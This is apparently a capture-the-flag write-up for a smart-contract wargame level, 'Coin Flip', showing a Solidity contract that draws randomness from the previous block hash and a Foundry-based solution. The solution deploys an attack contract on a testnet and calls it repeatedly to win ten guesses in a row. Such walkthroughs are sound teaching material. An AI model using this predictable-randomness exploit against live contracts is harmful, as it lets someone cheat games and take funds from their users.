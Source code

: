 ```yaml
---
title: "Coin Flip"
tags: ["Foundry"]
reference: 
---
```


# Description

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the "?" page above in the top right corner menu, section "Beyond the console"

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

# Solution

1. anyone can get the block number so that anyone can compute `coinFlip`

```
await getBlockNumber()
8903669
```

2. deploy `CoinFlipAttack.sol` on the same testnet using foundry

Code: [CoinFlipAttack.sol](lv_3/src/CoinFlipAttack.sol)

Find RPC from: https://chainlist.org/chain/11155111?

```
forge create src/CoinFlipAttack.sol:CoinFlipAttack --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Enter keystore password:
Deployer: 0xB1473Ba227C4645501E0e05f4839b00ED8320d33
Deployed to: 0x0Af3E0998033AA5d8B2aE22325251cDAC0ac0763
Transaction hash: 0x636815427d2bb4193b9c0b69fe981c590a5a330f9b3d2abe491bc1ec5168c59c
```


3. Call the `guess` function 10 times

> Don't use `cast call`, `cast call` performs a static call, which means it simulates the function without changing state. So consecutiveWins++ will not persist.

```
cast send 0xd89C1a850e9cd663b550105799267BA17F3F1E2F "guess(address)" 0xcE8A02314E34Dd10a69eB2F0966497B1f917e7d9 --rpc-url $BASE_SEPOLIA_RPC --private-key
```

4. Check the `consecutiveWins` variable

```
cast call 0xcE8A02314E34Dd10a69eB2F0966497B1f917e7d9 "consecutiveWins()(uint256)" --rpc-url $BASE_SEPOLIA_RPC
11
```
